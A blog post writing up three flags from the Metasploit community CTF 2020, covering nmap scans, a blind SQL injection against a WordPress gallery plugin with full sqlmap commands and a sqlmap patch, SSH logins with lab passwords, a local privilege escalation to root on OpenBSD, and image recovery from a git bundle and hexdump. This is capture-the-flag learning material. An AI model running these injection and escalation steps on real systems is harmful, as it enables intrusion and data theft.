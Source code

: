 Metasploit community CTF 2020 write up
######################################
:date: 2020-02-05
:author: Thomas Van Doren
:category: ctf
:tags: ctf, security
:slug: metasploit-2020-writeup

This past weekend I worked on the `Metasploit community CTF <https://blog.rapid7.com/2020/01/15/announcing-the-2020-metasploit-community-ctf/>`_ with the `CTF_Circle team <https://twitter.com/CTF_Circle>`_. As a group we finished 9th overall! The rest of this post includes a write up of three flags the team captured (out of the seven total). Capturing all three of these flags was a collaborative team effort, which is one of the highlights for me of working with CTF_Circle.

.. raw:: html

    <blockquote class="twitter-tweet"><p lang="en" dir="ltr">So proud of all our teammates, helping each other to 9th place in <a href="https://twitter.com/metasploit?ref_src=twsrc%5Etfw">@metasploit</a> community CTF!<br><br>s/o to <a href="https://twitter.com/echosystemname?ref_src=twsrc%5Etfw">@echosystemname</a> <a href="https://twitter.com/grenlith?ref_src=twsrc%5Etfw">@grenlith</a> <a href="https://twitter.com/thomasvandoren?ref_src=twsrc%5Etfw">@thomasvandoren</a> <a href="https://twitter.com/SarahDVictoria?ref_src=twsrc%5Etfw">@SarahDVictoria</a> <a href="https://twitter.com/nemesis09?ref_src=twsrc%5Etfw">@nemesis09</a> <a href="https://t.co/Sm8WuEwOCZ">pic.twitter.com/Sm8WuEwOCZ</a></p>&mdash; CTF Circle (@CTF_Circle) <a href="https://twitter.com/CTF_Circle/status/1224382463599767552?ref_src=twsrc%5Etfw">February 3, 2020</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

Background
----------

This CTF (`capture the flag <https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security>`_) provided teams with two EC2 instances: a Kali Linux jump box and a target box. The target box ran several services that hid PNG images of playing cards that were the flags. Exploiting vulnerabilites, or in some cases sniffing traffic, enabled us to find the flags. Once we found a flag, we submitted the md5 checksum to get points.

Queen of Hearts
---------------

Using nmap, we found that port 8000 on the target box was running a WordPress site about Giraffes::

    $ nmap -A target
    ...
    8000/tcp  open   http         Apache httpd 2.4.38 ((Debian))
    |_http-generator: WordPress 5.3.2
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: Lovely Giraffes &#8211; Everything about giraffes&#8230;
    |_http-trane-info: Problem with XML parsing of /evox/about

The WordPress site has WP_SITEURL set to ``http://127.0.0.1:8000``, which meant that all the subresources (e.g. scripts, style sheets, images) did not load and that links were broken. Adding a rewrite rule in Burp Suite to rewrite these urls back to ``http://target:8000`` fixed the links.

Visiting the site showed a Giraffe gallery site. Poking around there was a single post with a comment that referenced the password.

::

    $ curl target:8000/?page_id=2 | grep comments
    ... target:8000/?feed=comments-rss2 ...
    $ curl target:8000/?feed=comments-rss2 | grep password # refers to melman
    > Hey! I forgot to say, your account &#8220;melman&#8221; is still valid with the the same password, your last name.

Googling melman leads to the Madagascar movie character: `Melman Mankiewicz III <https://en.wikipedia.org/wiki/List_of_Madagascar_(franchise)_characters#Melman>`_. So the WordPress username and password are: melman/mankiewicz. These can be used at ``http://target:8000/wp-admin`` to sign in. The melman user did not have permission to upload plugins. The Nextgen Gallery was installed, version 3.2.10, and it has a `blind SQL injection vulnerability <https://wpvulndb.com/vulnerabilities/9816>`_!

::

    $ curl target:8000/ | grep wp-content/plugins
    <link rel='stylesheet' id='nextgen_widgets_style-css'  href='http://127.0.0.1:8000/wp-content/plugins/nextgen-gallery/products/photocrati_nextgen/modules/widget/static/widgets.css?ver=3.2.10' type='text/css' media='all' />

Exploiting the SQLi vulnerability required creating a new post, attaching a nextgen gallery, and then sorting the images in the gallery, which triggered a POST request to the backend that has the SQLi vulnerability.

::

    POST /index.php?photocrati_ajax=1 HTTP/1.1
    ...
    Cookie: wordpress_test_cookie=WP+Cookie+check;...

    action=get_displayed_gallery_entities&limit=5000&offset=0&nonce=2900d93354&displayed_gallery%5Bsource%5D=galleries&displayed_gallery%5Bcontainer_ids%5D%5B%5D=2&displayed_gallery%5Bdisplay_type%5D=photocrati-nextgen_basic_thumbnails&displayed_gallery%5Bslug%5D=&displayed_gallery%5Border_by%5D=img&displayed_gallery%5Border_direction%5D=ASC&displayed_gallery%5Breturns%5D=included&displayed_gallery%5Bmaximum_entity_count%5D=500&displayed_gallery%5B__defaults_set%5D=true

The ``displayed_gallery%5Border_by%5D=img`` post parameter is exploitable as a `blind SQL injection <https://owasp.org/www-community/attacks/Blind_SQL_Injection>`_. Using `sqlmap <http://sqlmap.org/>`_ we can use the blind injection to find data in the database. We set ``displayed_gallery%5Border_by%5D=%INJECT HERE%`` in the request body given to sqlmap and otherwise copy+pasted the raw request from burp. This is the command we ran to enumerate databases (we know wordpress uses mysql) and tables in the database server.

::

    $ sqlmap -r req.txt --dbms=mysql --level=5 --risk=3 --dump --threads=10 --hex --technique=BEUQ --tamper=between,randomcase,space2comment --dbs --tables

That showed there was a database called ``flag_card`` (in addition to the ``wordpress`` database) with a table called ``card``. Using sqlmap we can dump that table, which showed that there was a value in the ``image`` column that was >90k long and it started calculating the value.

::

    sqlmap -r req.txt --dbms=mysql --level=5 --risk=3 --dump --threads=10 --hex --technique=BEUQ --tamper=between,randomcase,space2comment -D flag_card -T card

Using the blind SQLi it was calculating ~1 character/second, so this was going to take 25+ hours. That's when `echo had a brilliant suggestion <https://twitter.com/nemesis09/status/1224401072225161216>`_ to md5 the content in the database, then brute force the md5 sum since that is only 32 characters. We patched sqlmap to always wrap the image column in a MD5() call (please `tweet me <https://twitter.com/thomasvandoren>`_ if there is a better way to do this with sqlmap!)::

    diff --git a/lib/core/agent.py b/lib/core/agent.py
    index aad9db4b0..189262695 100644
    --- a/lib/core/agent.py
    +++ b/lib/core/agent.py
    @@ -595,6 +595,9 @@ class Agent(object):
            Note: used primarily in dumping of custom tables
            """
                                    
    +        if field == 'image':      
    +            return 'MD5(image)'   
    +                                  
            retVal = field            
            if conf.db and table and conf.db in table:                    
                table = table.split(conf.db)[-1].strip('.')               

Rerunning the sqlmap command with this patch, it finished very quickly and displayed the card name and md5, which we submitted!

::

    Database: flag_card
    Table: card
    [1 entry]
    +----+-----------------+----------------------------------+
    | id | name            | image                            |
    +----+-----------------+----------------------------------+
    | 1  | Queen of Hearts | 111b62aef6e0a5ea78fe7485fc9b3333 |
    +----+-----------------+----------------------------------+

7 of Diamonds
-------------

Capturing this flag started with capturing the `2 of Diamonds <http://tinkerfairy.net/2-of-diamonds.txt>`_ flag, which was a repeat from the 2018 Metasploit community CTF. We downloaded the /etc/passwd file from the target 4.3BSD/VAX system and then ran `John the Ripper <https://www.openwall.com/john/>`_ over it to get passwords. These passwords enabled us to SSH into port 22 on the target box::

    $ nmap -A target
    ...
    22/tcp    open   ssh          OpenSSH 8.1 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 44:88:8c:e3:81:67:0e:5c:84:2e:54:b8:8f:17:b4:48 (RSA)
    |   256 08:7a:50:9d:67:c9:25:20:89:07:85:98:c0:34:9c:9f (ECDSA)
    |_  256 ad:df:2c:68:bc:12:49:75:c6:d4:05:5c:f5:d2:6b:be (ED25519)

That was an OpenBSD 6.6 system. The ``ken`` user was in the wheel group and Ken's password is `Ken Thompson's Unix password <https://leahneukirchen.org/blog/archive/2019/10/ken-thompson-s-unix-password.html>`_. 

::

    $ ssh srb@target # password: bourne
    $ groups ken
    users wheel

Signing in as Ken, we were able to exploit `a privilege escalation <https://www.openwall.com/lists/oss-security/2019/12/11/9>`_ to gain root access to the system, and after some searching found a bare git repo at ``/root/hai``. There is also `a RCE in OpenSMTPB in this version of OpenBSD <https://www.openwall.com/lists/oss-security/2020/01/28/3>`_ that would have enabled root access.

::

    $ ssh ken@target # password: p/q2-q4!
    $ cd exp
    $ ./exp /usr/bin/chpass
    # cd /root
    # file hai
    hai: Git bundle

We copied that bare git repo back to the jump box and then were able to generate the 7 of Diamonds by concatenating the ``/whats-this`` file from: the master branch, then the nothing-to-see-here branch, and finally from a base64 encoded blob in a commit message in the nothing-to-see-here branch. Opening just the ``/whats-this`` this file from master only showed about half of the card, so this was a fun challenge to get the other pieces!

::

    $ git clone hai hai-clone
    $ cd hai-clone
    $ cat whats-this > 7-of-diamonds.png
    $ git branch -r
      origin/HEAD -> origin/master
      origin/master
      origin/nothing-to-see-here
    $ git checkout nothing-to-see-here
    $ cat whats-this >> 7-of-diamonds.png
    $ git log # then scroll through the log messages to find a base64 text wall
    $ git log --format=%B -n 1 7cadeef01e867da960cae432000796879b77f59a | base64 -d >> 7-of-diamonds.png
    $ md5sum 7-of-diamonds.png
    ca7c8f05fc082f0b2127dd0a40c80f21  7-of-diamonds.png

.. image:: /images/metasploit-2020-7-of-diamonds.png
    :alt: 7-of-diamonds.png

Ace of Spades
-------------

Another file we found while searching the OpenBSD system was ``/etc/flag``, which was a hexdump of a PNG file::

    $ head -1 /etc/flag # hexdump -C of a PNG file
    00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
    ...

We copied that to kali as `etcflag` and then used this python code to remove everything except the hex.

.. code-block:: python

    lines = []
    with open('etcflag') as fp:
        with open('etcflag.just_hex', 'w') as fp2:
            for l in fp.readlines():
                fp2.write(l[10:58])
                fp2.write('\n')

Then we reversed the hex with xxd to get the original image and the flag!

::

    $ xxd -p -r etcflag.just_hex ace-of-spades.png
    $ md5sum ace-of-spades.png
    eb8166c746b9f66297174e9073ce0fea  ace-of-spades.png

.. image:: /images/metasploit-2020-ace-of-spades.png
    :alt: ace-of-spades.png
